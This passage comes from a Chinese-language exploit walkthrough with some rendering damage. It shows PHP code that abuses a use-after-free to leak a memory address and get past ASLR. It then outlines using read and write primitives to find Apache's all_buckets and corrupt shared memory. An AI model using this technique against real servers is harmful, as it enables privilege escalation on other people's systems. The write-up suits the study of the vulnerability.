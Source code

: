 ```
    global $y, $p;

    unset($y[0]);

    $p = $this-&gt;y;

    return $this;

  `}`

`}`

 

function get_aslr()

`{`

  global $p, $y;

  $p = 0;

 

  $y = [new X('PT1S')];

  json_encode([1234 =&gt; &amp;$y]);

  print("ADDRESS: 0x" . dechex($p) . "n");

 

  return $p;

`}`

 

get_aslr();
```



这里有一个PHP对象的UAF：即使我们无法设置$y[0](X的一个实例)，我们也可以利用$this。

UAF的读写权限

我们想要实现两个目标：读取内存地址来找到all_buckets的位置，修改SHM来改变bucket的值，从而加上我们自己的结构。

好在PHP的堆正好在这两片地址区域的前面。

PHP堆的内存地址，ap_scoreboard_image-&gt;*和all_buckets



